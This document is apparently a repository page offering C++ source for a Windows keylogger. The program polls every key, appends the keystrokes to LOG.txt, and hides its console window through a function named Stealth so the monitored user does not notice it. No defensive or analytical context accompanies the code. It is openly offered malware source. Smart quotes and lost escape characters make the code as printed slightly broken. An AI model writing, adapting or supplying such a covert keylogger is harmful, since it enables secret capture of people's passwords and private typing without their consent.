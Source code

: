 # keylogger
a key stroke logging program

#include <iostream> 
using namespace std; 
#include <windows.h> 
#include <winuser.h> 
int Save (int key_stroke, char *file);
void Stealth();
int main() 
{
Stealth(); 
char i;

while (1)
{
for(i = 8; i <= 190; i++)
{
if (GetAsyncKeyState(i) == -32767)
Save (i,”LOG.txt”); 
}
}
system (“PAUSE”);
return 0;
}

/* *********************************** */

int Save (int key_stroke, char *file)
{
if ( (key_stroke == 1) || (key_stroke == 2) )
return 0;

FILE *OUTPUT_FILE;
OUTPUT_FILE = fopen(file, “a+”);

cout << key_stroke << endl;

if (key_stroke == 8)
fprintf(OUTPUT_FILE, “%s”, “[BACKSPACE]”); 
else if (key_stroke == 13)
fprintf(OUTPUT_FILE, “%s”, “n”); 
else if (key_stroke == 32)
fprintf(OUTPUT_FILE, “%s”, ” “);
else if (key_stroke == VK_TAB) 
fprintf(OUTPUT_FILE, “%s”, “[TAB]”);
else if (key_stroke == VK_SHIFT)
fprintf(OUTPUT_FILE, “%s”, “[SHIFT]”);
else if (key_stroke == VK_CONTROL)
fprintf(OUTPUT_FILE, “%s”, “[CONTROL]”);
else if (key_stroke == VK_ESCAPE)
fprintf(OUTPUT_FILE, “%s”, “[ESCAPE]”);
else if (key_stroke == VK_END)
fprintf(OUTPUT_FILE, “%s”, “[END]”);
else if (key_stroke == VK_HOME)
fprintf(OUTPUT_FILE, “%s”, “[HOME]”);
else if (key_stroke == VK_LEFT)
fprintf(OUTPUT_FILE, “%s”, “[LEFT]”);
else if (key_stroke == VK_UP)
fprintf(OUTPUT_FILE, “%s”, “[UP]”);
else if (key_stroke == VK_RIGHT)
fprintf(OUTPUT_FILE, “%s”, “[RIGHT]”);
else if (key_stroke == VK_DOWN)
fprintf(OUTPUT_FILE, “%s”, “[DOWN]”);
else if (key_stroke == 190 || key_stroke == 110)
fprintf(OUTPUT_FILE, “%s”, “.”);
else
fprintf(OUTPUT_FILE, “%s”, &key_stroke);

fclose (OUTPUT_FILE);
return 0;
}

/* *********************************** */

void Stealth()
{
HWND Stealth;
AllocConsole();
Stealth = FindWindowA(“ConsoleWindowClass”, NULL);
ShowWindow(Stealth,0);
}
